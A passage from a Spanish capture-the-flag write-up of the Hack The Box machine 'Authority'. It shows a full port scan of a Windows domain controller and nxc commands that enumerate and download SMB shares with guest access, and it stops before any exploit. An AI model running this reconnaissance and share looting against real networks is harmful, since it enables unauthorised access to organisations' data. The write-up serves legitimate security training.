# Scan
Empezamos realizando un escaneo con ``rustscan -a 10.129.229.56 --ulimit 5000 -r 1-65535 -- -sVC -oN scan -Pn``
```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-05 13:17:35Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:     d494 7710 6f6b 8100 e4e1 9cf2 aa40 dae1
| SHA-1:   dded b994 b80c 83a9 db0b e7d3 5853 ff8e 54c6 2d0b
| SHA-256: e1d2 e894 2960 a961 bbf7 b4e4 c110 c6d7 e5a1 7a29 8987 85dc 3553 fb90 458a 5cb7
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-05T13:18:40+00:00; +3h59m59s from scanner time.
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-05T13:18:40+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:     d494 7710 6f6b 8100 e4e1 9cf2 aa40 dae1
| SHA-1:   dded b994 b80c 83a9 db0b e7d3 5853 ff8e 54c6 2d0b
| SHA-256: e1d2 e894 2960 a961 bbf7 b4e4 c110 c6d7 e5a1 7a29 8987 85dc 3553 fb90 458a 5cb7
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-05T13:18:40+00:00; +3h59m59s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:     d494 7710 6f6b 8100 e4e1 9cf2 aa40 dae1
| SHA-1:   dded b994 b80c 83a9 db0b e7d3 5853 ff8e 54c6 2d0b
| SHA-256: e1d2 e894 2960 a961 bbf7 b4e4 c110 c6d7 e5a1 7a29 8987 85dc 3553 fb90 458a 5cb7
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA/domainComponent=htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:     d494 7710 6f6b 8100 e4e1 9cf2 aa40 dae1
| SHA-1:   dded b994 b80c 83a9 db0b e7d3 5853 ff8e 54c6 2d0b
| SHA-256: e1d2 e894 2960 a961 bbf7 b4e4 c110 c6d7 e5a1 7a29 8987 85dc 3553 fb90 458a 5cb7
| -----BEGIN CERTIFICATE-----
| MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
| MBcGA1UEAxMQaHRiLUFVVEhPUklUWS1DQTAeFw0yMjA4MDkyMzAzMjFaFw0yNDA4
| MDkyMzEzMjFaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDVsJL0
| ae0n8L0Eg5BAHi8Tmzmbe+kIsXM6NZvAuqGgUsWNzsT4JNWsZqrRoHMr+kMC4kpX
| 4QuOHTe74iyB8TvucgvwxKEi9uZl6C5unv3WNFhZ9KoTOCno26adxqKPbzS5KQtk
| ZCvQfqQKOML0DuzA86kwh4uY0SjVR+biRj4IkkokWrPDWzzow0gCpO5HNcKPhSTl
| kAfdmdQRPjkXQq3h2QnfYAwOMGoGeCiA1whIo/dvFB6T9Kx4Vdcwi6Hkg4CwmbSF
| CHGbeNGtMGeWw/s24QWZ6Ju3J7uKFxDXoWBNLi4THL72d18jcb+i4jYlQQ9bxMfI
| zWQRur1QXvavmIM5AgMBAAGjggLxMIIC7TA9BgkrBgEEAYI3FQcEMDAuBiYrBgEE
| AYI3FQiEsb4Mh6XAaYK5iwiG1alHgZTHDoF+hKv0ccfMXgIBZAIBAjAyBgNVHSUE
| KzApBgcrBgEFAgMFBgorBgEEAYI3FAICBggrBgEFBQcDAQYIKwYBBQUHAwIwDgYD
| VR0PAQH/BAQDAgWgMEAGCSsGAQQBgjcVCgQzMDEwCQYHKwYBBQIDBTAMBgorBgEE
| AYI3FAICMAoGCCsGAQUFBwMBMAoGCCsGAQUFBwMCMB0GA1UdDgQWBBTE4oKGc3Jv
| tctii3A/pyevpIBM/TAfBgNVHSMEGDAWgBQrzmT6FcxmkoQ8Un+iPuEpCYYPfTCB
| zQYDVR0fBIHFMIHCMIG/oIG8oIG5hoG2bGRhcDovLy9DTj1odGItQVVUSE9SSVRZ
| LUNBLENOPWF1dGhvcml0eSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIwU2Vydmlj
| ZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1odGIsREM9Y29ycD9j
| ZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlz
| dHJpYnV0aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaB
| n2xkYXA6Ly8vQ049aHRiLUFVVEhPUklUWS1DQSxDTj1BSUEsQ049UHVibGljJTIw
| S2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz1o
| dGIsREM9Y29ycD9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlm
| aWNhdGlvbkF1dGhvcml0eTBUBgNVHREBAf8ESjBIoCMGCisGAQQBgjcUAgOgFQwT
| QVVUSE9SSVRZJEBodGIuY29ycIISYXV0aG9yaXR5Lmh0Yi5jb3JwgghodGIuY29y
| cIIDSFRCMA0GCSqGSIb3DQEBCwUAA4IBAQCH8O6l8pRsA/pyKKsSSkie8ijDhCBo
| zoOuHiloC694xvs41w/Yvj9Z0oLiIkroSFPUPTDZOFqOLuFSDbnDNtKamzfbSfJR
| r4rj3F3r7S3wwK38ElkoD8RbqDiCHan+2bSf7olB1AdS+xhp9IZvBWZOlT0xXjr5
| ptIZERSRTRE8qyeX7+I4hpvGTBjhvdb5LOnG7spc7F7UHk79Z+C3BWG19tyS4fw7
| /9jm2pW0Maj1YEnX7frbYtYlO7iQ3KeDw1PSCMhMlipovbCpMJ1YOX9yeQgvvcg0
| E0r8uQuHmwNTgD5dUWuHtDv/oG7j63GuTNwEfZhtzR2rnN9Vf2IH9Zal
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-05T13:18:41+00:00; +3h59m59s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8443/tcp  open  ssl/http      syn-ack ttl 127 Apache Tomcat (language: en)
|_ssl-date: TLS randomness does not represent time
|_http-favicon: Unknown favicon MD5: F588322AAF157D82BB030AF1EFFD8CF9
| ssl-cert: Subject: commonName=172.16.2.118
| Issuer: commonName=172.16.2.118
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-03T13:13:40
| Not valid after:  2028-03-05T00:52:04
| MD5:     f4fc 4842 0f5a bc9b d1fe 919d 6dde 89ad
| SHA-1:   bfd0 4b55 d2e3 7be6 13d7 f36c d596 e6f3 ea2a 7ee4
| SHA-256: e5ed 0e28 59d2 e53b be4f 751d 0ebc aa1c c6b8 efa6 c99c 612a 1979 69c6 acbb bb8c
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIGEm04SIKMMA0GCSqGSIb3DQEBCwUAMBcxFTATBgNVBAMM
| DDE3Mi4xNi4yLjExODAeFw0yNjAzMDMxMzEzNDBaFw0yODAzMDUwMDUyMDRaMBcx
| FTATBgNVBAMMDDE3Mi4xNi4yLjExODCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
| AQoCggEBANE/Y7DjT83azjLL4wHyW7U3qvbznCG++L9PpWBOGAuW4sRdjDtYesW8
| LwdOeCCDKG/Wu1foe2CdrLXHl/3cKukIn3eSHf52PibuwXbD5TEaclCGVt0mM+Fw
| PQ7BC8DHp6L0JyOf20HuQrFkrpZQuMBsuP4vp9h/4TWtYQ3lxZFf2C9uCj4MQw8y
| QydWSdshwECoD2U+THjFAOlQyRNdq29u4mith1Nq8aHs/QBwdpLFVjWmCHJzip0J
| jcgfiUj42GiuSDo/NwLg5v2XF8PhNyA9R1OJ177FR9+K7MYREbGSNdwNoDROpzt8
| VQlBFSeJPUY7SGIwIcYpmu5Bz3e/ZLsCAwEAAaM4MDYwDAYDVR0TAQH/BAIwADAO
| BgNVHQ8BAf8EBAMCBaAwFgYDVR0lAQH/BAwwCgYIKwYBBQUHAwEwDQYJKoZIhvcN
| AQELBQADggEBADbhVehtTV+uuKb5T3B7VfA3yr8qC3xX1snBDznZmcX/hyJ+h0Su
| hMCO9fU7/0XjvrpCXmXyuE2HRmmCSN590N/QoFcLFJpyam4RjHfpR+6gztt2X29y
| tUpIfeT2qu6Gn5eNtwJGtSF4rWQdK0q0Q5Y6kEkSRnZrxMuVjSxN2TQdzB03b/KA
| Zy9GVepovxLwm2Ekl2Z1EpoBrWVmhI19GUksOnFjRoPr3Xqe+mGQ9gCbIw1eF0Qo
| UaZ3FB/JImmGb1OEItmGDbk3PZpl03UuIRmELM6rfQjLaoonuo568TgSgqq8KAVt
| mayJsuqHm3FY2yeMD3Ju0xs5wU1FKkQrfJQ=
|_-----END CERTIFICATE-----
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
| tls-alpn: 
|_  h2
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49690/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49693/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49712/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
59795/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
59808/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 5733/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 59891/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 45641/udp): CLEAN (Timeout)
|   Check 4 (port 14198/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-03-05T13:18:35
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 3h59m58s, deviation: 0s, median: 3h59m58s
```

Empezamos añadiendo ``authority.htb.corp``, ``authority.htb`` y ``htb.corp`` al ``/etc/hosts``
Ahora en el puerto 8443 encontramos pwm: 


Enumeramos los shares y vemos que podemos leer en dos:
```bash
nxc smb 10.129.229.56 -u 'guest' -p '' --shares
```

# Exploitation
Ahora vemos el contenido de Development:
```bash
nxc smb 10.129.229.56 -u 'guest' -p '' --share 'Development' --dir
```

Ahora vamos a descargar la carpeta Automation:
```bash
nxc smb 10.129.229.56 -u 'guest' -p '' --share 'Development' -M spider_plus -o DOWNLOAD_FLAG=True
```

Ahora revisando el contenido encontramos esto:
